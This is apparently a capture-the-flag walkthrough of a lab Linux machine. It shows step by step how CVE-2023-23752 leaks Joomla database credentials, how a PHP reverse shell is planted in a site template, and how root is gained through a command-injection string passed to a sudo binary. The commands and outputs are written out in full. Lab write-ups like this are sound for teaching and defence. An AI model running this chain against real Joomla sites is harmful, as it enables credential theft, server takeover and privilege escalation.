# Samurai — CTF Walkthrough

> **Difficulty:** Easy  
> **OS:** Linux  
> **Services:** SSH (22), HTTP (80)  
> **Key Techniques:** CVE-2023-23752 (Joomla Unauthenticated Info Disclosure), Template RCE, PATH Hijacking / Command Injection   

---

## Overview

Samurai is a Linux-based CTF machine centered around a Joomla CMS instance. The attack chain involves exploiting an unauthenticated information disclosure vulnerability (CVE-2023-23752) to harvest database credentials, logging into the Joomla admin panel, injecting a reverse shell into a site template, and finally escalating privileges via a custom SUID-enabled binary that is vulnerable to command injection.

---

## Reconnaissance

### Port Scan

We begin with a full port scan using RustScan piped into Nmap:

```bash
rustscan -b 500 -a 10.1.39.176 -- -sC -sV
```
**Results:**

| Port | State | Service | Version |
|------|-------|---------|---------|
| 22/tcp | open | SSH | OpenSSH 8.9p1 Ubuntu |
| 80/tcp | open | HTTP | Apache httpd 2.4.52 (Ubuntu) |

Two ports are exposed — SSH and an Apache web server. The HTTP title is "Samurai", confirming this is the primary attack surface.



---

## Enumeration

### Directory Brute-Force

```bash
dirsearch -u http://10.1.39.176/
```

Notable findings from the scan:

| Path | Status | Notes |
|------|--------|-------|
| `/administrator/` | 200 | **Joomla admin login panel** |
| `/administrator/index.php` | 200 | Admin entry point |
| `/api/` | 301 | API endpoint |
| `/configuration.php` | 200 | 0B — contents hidden but exists |
| `/htaccess.txt` | 200 | Joomla artefact |
| `/README.txt` | 200 | Version hints |

The `/administrator` path leads to the **Joomla Administrator Login** page. Default credentials (`admin:admin`, `admin:password`, etc.) did not work.

> **Tip:** Files like `/htaccess.txt`, `/README.txt`, and `/web.config.txt` are Joomla default files that can hint at the CMS type and version before you run a dedicated scanner.




### Joomla Version Detection

Since default credentials failed, we run `joomscan` to fingerprint the exact Joomla version:

```bash
joomscan -u http://10.1.39.176/
```

Key output:

```
[+] Detecting Joomla Version
[++] Joomla 4.2.5

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] admin finder
[++] Admin page: http://10.1.39.176/administrator/
```


**Joomla version: 4.2.5**

The scanner reports the core as "not vulnerable" — but that refers only to known RCE chains in the core. Joomla 4.2.5 is within the affected range of **CVE-2023-23752**, an unauthenticated information disclosure vulnerability.

---

## Exploitation

### CVE-2023-23752 — Unauthenticated Information Disclosure

**Affected versions:** Joomla 4.0.0 – 4.2.7  
**Type:** Improper access check on webservice endpoints  
**Impact:** Unauthenticated access to sensitive configuration data including database credentials

**References:**
- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-23752)
- [Exploit-DB](https://www.exploit-db.com/exploits/51334)
- [GitHub PoC](https://github.com/Acceis/exploit-CVE-2023-23752)






#### Setup

Clone the exploit repository:



```bash
git clone https://github.com/Acceis/exploit-CVE-2023-23752
cd exploit-CVE-2023-23752
```

Install the required Ruby gems (the exploit will throw a `LoadError` without these):



```bash
gem install httpx docopt paint
# or
bundle install
```

#### Running the Exploit

```bash
ruby exploit.rb http://10.1.39.176
```

**Output:**

```
Users
[769] Oda Miyamoto - oda@local.local - Super Users

Site info
Site name: Samurai
Editor: tinymce

Database info
DB type: mysqli
DB host: localhost
DB user: joomla425
DB password: Pa847word987@Joomla456
DB name: Dbjoomla
DB prefix: iemj4_
```


We have leaked:
- **Username:** `Miyamoto`
- **Password:** `Pa847word987@Joomla456`

> **Why does this work?** Joomla exposes a `/api/index.php/v1/config/application?public=true` endpoint intended for public configuration. Due to an improper access check, it also returns sensitive site configuration — including database credentials — without any authentication.

---

### Accessing the Admin Panel

Navigate to `http://10.1.39.176/administrator/` and log in with the harvested credentials:

```
Username: Miyamoto
Password: Pa847word987@Joomla456
```

We are now inside the **Joomla System Dashboard** with Super User privileges.

---

### Remote Code Execution via Template Injection

With admin access, we can edit PHP template files directly — a well-known post-auth RCE path in Joomla.

**Steps:**

1. Go to `System` → `Templates` → `Site Templates`
2. Click on the **Cassiopeia** template → `Open Files`
3. Select `error.php` from the file tree
4. Replace the file contents with a PHP reverse shell (e.g., from [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell))
5. Update your attacker IP and port in the shell, then **Save & Close**






#### Start the Listener

```bash
penelope -p 4444
```

#### Trigger the Shell

Visit the modified template file in your browser:

```
http://10.1.39.176/templates/cassiopeia/error.php
```

**Shell received:**

```
[+] Got reverse shell from streetcoder~10.1.39.176
[+] Shell upgraded successfully using /usr/bin/python
[+] Interacting with session [1], Shell Type: PTY

www-data@streetcoder:/$
```

We are now operating as `www-data`.



---

## Privilege Escalation

### Sudo Enumeration

```bash
sudo -l
```

```
User www-data may run the following commands on streetcoder:
    (root) NOPASSWD: /opt/backup/DbMaria
```



We can run `/opt/backup/DbMaria` as root with no password. Let's analyze it.

### Binary Analysis with `strings`

```bash
strings /opt/backup/DbMaria
```

Key line spotted in the output:

```
mariadb-dump --socket=/run/mysqld/mysqld.sock -u root %s > /tmp/backup.sql
```

Two critical observations:

1. The binary calls `mariadb-dump` **without an absolute path** — meaning it relies on `$PATH` to resolve it. This opens the door to a **PATH hijacking** attack.
2. The `%s` placeholder is directly interpolated from user input into a shell command — a classic **command injection** vulnerability.

### Exploitation — Command Injection

We can break out of the intended command using a semicolon to inject a second command:

```bash
sudo /opt/backup/DbMaria 'test; /bin/bash -p #'
```




**What happens step by step:**

| Part | Effect |
|------|--------|
| `test` | Passed as the database name argument — `mariadb-dump` will fail/succeed but we don't care |
| `;` | Shell command separator — the next command executes regardless |
| `/bin/bash -p` | Spawns a new Bash shell; `-p` preserves the effective UID (root) since the binary runs under sudo |
| `#` | Comments out the rest of the original command (`> /tmp/backup.sql`), preventing redirection errors |

**Result:**

```
root@streetcoder:/# id
uid=0(root) gid=0(root) groups=0(root)
```

**Rooted.** 🎉

---

## Summary

| Step | Technique | Detail |
|------|-----------|--------|
| 1 | Recon | Nmap/RustScan → SSH + HTTP |
| 2 | Enumeration | Dirsearch → Joomla admin panel discovered |
| 3 | Version Detection | Joomscan → Joomla 4.2.5 |
| 4 | Initial Access | CVE-2023-23752 → DB credentials leaked |
| 5 | Admin Login | Harvested creds → Joomla Super User |
| 6 | RCE | Template editor → PHP reverse shell in `error.php` |
| 7 | Shell | `www-data` shell via `penelope` listener |
| 8 | PrivEsc | Sudo binary `DbMaria` → command injection → root shell |

---

## Key Takeaways

- **CVE-2023-23752** is a dangerous misconfiguration-class vulnerability that requires zero authentication. Any Joomla 4.x instance below 4.2.8 should be patched immediately.
- **Template file editing** in Joomla admin is essentially arbitrary PHP execution. Admin panel access should be treated as equivalent to a shell.
- **Never use `%s` with `system()`/`popen()` and unsanitized user input.** The DbMaria binary is a textbook example of command injection via format string substitution.
- **Always use absolute paths** in binaries that run with elevated privileges. Relying on `$PATH` when running as root is a critical security flaw.

---


*Happy hacking — stay ethical, stay curious.*